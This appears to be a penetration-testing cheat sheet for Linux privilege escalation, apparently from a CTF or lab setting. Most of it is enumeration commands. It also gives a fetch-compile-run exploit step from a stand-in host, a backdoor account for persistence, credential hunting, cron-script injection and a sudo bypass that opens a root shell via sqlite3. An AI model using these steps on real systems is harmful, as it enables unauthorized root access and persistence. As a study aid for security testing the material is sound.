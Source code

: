 
# Linux Privilege Escalation Guide

## 1. Enumeration (Know Your Environment)

- **Basic Info Gathering**:
  ```bash
  hostnamectl              # System hostname and details  
  hostname                    # Discover hostname
  cat /etc/issue             # OS release and version
  cat /etc/os-release        # OS details
  uname -a                   # Kernel version and architecture
  cat /proc/version          # Detailed kernel information
  whoami                   # Current user  
  id                       # User ID and groups  
  ```

- **Network Configuration**:
  ```bash
  ip a                     # Network interfaces  
  ip route                 # Display routing table
  netstat -tuln            # Listening ports  
  ss -tunapl                 # Active connections and listening ports
  ```

- **Firewall Rules**:
  ```bash
  cat /etc/iptables/rules.v4 # Check IPv4 firewall rules
  cat /etc/network/interfaces # Network interface configuration
  ```

- **Processes & Scheduled Tasks**:
  ```bash
  ps aux                   # Running processes  
  ls -lah /etc/cron*          # List cron jobs
  crontab -l                  # List user cron jobs
  cat /var/log/cron.log       # Inspect cron logs
  grep "CRON" /var/log/syslog  # Inspect cron logs
  ```

- **Capturing Traffic**:
  ```bash
  sudo tcpdump -i lo -A | grep "pass"  # Capture loopback traffic
  sudo tcpdump -nvvvXi tun0 tcp port 8080
  ```
- **Check for Running Services**:
  ```bash
  systemctl list-units --type=service --state=running  
  ```

---

## 2. Weak File Permissions

- **Search for Writable Files**:
  ```bash
  find / -type f -perm -o+w 2>/dev/null  
  ```
- **Writable Directories**:
  ```bash
  find / -type d -perm -o+w 2>/dev/null  
  ```
- **Check SUID Binaries GUID and Capabilities**:
  ```bash
  find / -perm -4000 -type f 2>/dev/null  
  find / -perm -g=s -type f 2>/dev/null  
  /usr/sbin/getcap -r / 2>/dev/null     # Enumerate capabilities
  ```

## 5. Inspecting System Configuration

- **File Systems and Mounts**:
  ```bash
  cat /etc/fstab             # Mounted drives at boot
  mount                      # List mounted filesystems
  lsblk                      # View available disks and partitions
  ```

- **Kernel Modules**:
  ```bash
  lsmod                      # List loaded kernel modules
  /sbin/modinfo <module>     # Detailed info about a specific module
  ```
---

## 3. Misconfigurations in SUDO

- **View SUDO Permissions**:
  ```bash
  sudo -l  
  ```

- **Exploitable SUDO Misconfigurations**:
  - If a binary like `vi`, `nano`, or `python` is allowed:
    ```bash
    sudo vi /etc/shadow    # Edit files as root  
    ```

  - If SUDO allows execution of a script or command:
    ```bash
    sudo command /path/to/script  
    ```

---

## 4. Exploitable Binaries

- **GTFOBins** (Good for SUID, Cron, or SUDO abuse):
  Visit [GTFOBins](https://gtfobins.github.io) to find escape techniques for binaries.

---

## 5. Kernel Exploits

- Identify vulnerable kernel versions using:
  ```bash
  uname -r  
  ```

- Look for exploit scripts at:
  - [Exploit Database](https://www.exploit-db.com)  
  - [Linux Exploit Suggester](https://github.com/mzet-/linux-exploit-suggester)  

---

## 6. Exploiting User Credentials

- **Search for Sensitive Files**:
  ```bash
  grep -Ri "password" /home/  
  ```

- **View User History**:
  ```bash
  cat ~/.bash_history  
  ```

---

## 7. Cron Jobs Abuse

- **Find Writable Cron Jobs**:
  ```bash
  ls -la /etc/cron*  
  ```

- If a script is run by a cron job and is writable:
  - Inject malicious code into the script to gain privileges.

---

## 8. Pivoting to Root

- **Use Exploit Scripts**:
  ```bash
  wget http://example.com/exploit.c -O exploit.c  
  gcc exploit.c -o exploit  
  ./exploit  
  ```

- **Abuse Misconfigured Binaries** using **GTFOBins** strategies.

---

## 9. Post-Exploitation Tips

- **Gain a Root Shell**:
  ```bash
  python3 -c 'import pty; pty.spawn("/bin/bash")'  
  export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin  
  ```

- **Persist as Root** (Add a backdoor):
  ```bash
  echo "newuser:password" | chpasswd  
  useradd newuser -s /bin/bash -m  
  ```

---

## 10. Tools for Automation

- **LinPEAS** (Privilege Escalation Script):
  ```bash
  wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh  
  chmod +x linpeas.sh  
  ./linpeas.sh  
  ```

- **Linux Exploit Suggester**:
  ```bash
  perl linux-exploit-suggester.pl  
  ```





  ## Sudo

  User frank may run the following commands on devguru:
      (ALL, !root) NOPASSWD: /usr/bin/sqlite3


  sudo -u#-1 sqlite3 /dev/null '.shell /bin/bash'
